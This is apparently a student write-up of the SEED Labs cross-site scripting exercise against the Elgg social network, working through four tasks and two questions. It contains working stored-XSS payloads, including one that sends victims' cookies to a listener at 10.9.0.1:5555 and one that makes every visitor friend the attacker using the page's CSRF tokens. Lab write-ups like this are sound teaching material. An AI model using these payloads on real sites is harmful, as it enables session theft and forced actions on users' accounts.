 ## SeedLab

### Task 1

- For the task 1, we choose to login with the user Alice. After we logged in we went to edit profile and in the input for brief discreption we add the script ``<script>alert('XSS');</script>``.

- This way, every time the brief discreption field is asked for a web page, it will execute the alert we inserted. This justifies why even in the list of users the alert is triggered. Because this list not only the users, but the brief discreption of each user.

### Task 2

- Still using user Alice, we went to edit profile and in the input for brief discreption we add another script. Instead of the script ``<script>alert('XSS');</script>`` we use the script ``<script>alert(document.cookie);</script>``, so we can now print the cookies.

- The result of the alert was ``pvisitor=a6b4dccd-99d9-4a92-a50a-9a850b3592ab; Elgg=i0mr1o4tlhlimds4ncd0da5nb7``.

### Task 3

- In this task, instead of the user being the only one who can see the cookies, we want to send an HTTP request with the cookies appended to the request in order so see them.
- In order to do that we user a script that do that, `` <script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script> ``.
- This sript inserts the img tag, the browser tries to load the image from the URL in the src field, this results in an HTTP GET request sent to our machine, with the cookies to the port 5555 of our machine (with IP address 10.9.0.1).
- We use the program ``nc -lknv 5555``, to have a TCP server that listens for a connection on the specified port (5555).
- This program will print out the HTTP request with the cookies of the client.

### Task 4

- In this task, we will use a script that adds Samy as a friend to any other user that visits Samy’s page.
- First we find out how a legitimate user adds a friend in Elgg.
- We use Firefox’s ``HTTP inspection tool`` to help us get what are sent to the server when a user adds a friend.
- Inspectioning the contents of the HTTP GET request that was sent when the add friend button was clicked, we identify all the parameters in the request.
- Finding that the data is attached to the URL 
- The parameters are placed after the URL by``?`` and separated by ``&``, that parameters being, first ``friend=59`` and the variables ``__elgg_ts``, ``__elgg_token``.
- The script create a GET request to the URL ``http://www.seed-server.com/action/friends/add`` with the parameters ``friend=59``, ``'__elgg_ts='+elgg.security.token.__elgg_ts;``, ``'__elgg_token='+elgg.security.token.__elgg_token;``.

```
<script type='text/javascript'>
	window.onload = function () {
    	var Ajax=null;
    	var ts='&__elgg_ts='+elgg.security.token.__elgg_ts; ➀
    	var token='&__elgg_token='+elgg.security.token.__elgg_token; ➁
    	var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token;
    	Ajax=new XMLHttpRequest();
    	Ajax.open('GET', sendurl, true);
    	Ajax.send();
	}
</script>
```
- Sending out the same HTTP request as add-friend HTTP request.
- We placed the script in the ``About Me`` field of Samy’s profile page, after we clicking on option ``Edit HTML`` to enable Text mode.
- Now any other user that visits Samy’s page, will add Samy as a friend.


### Questions

- Question 1:
The Lines ➀ and ➁, are needed for getting the values of the __elgg_ts and __elgg_token parameters, because they change every time a page is loaded so they need to be accessed dynamically in order to get the correct values.
- Question 2:
If the Elgg application only provided the Editor mode for the ``About me`` field, the attack would not be successful because the The Editor mode adds extra HTML code to the text typed into the field and we do not want any extra code added to our script in order to work.


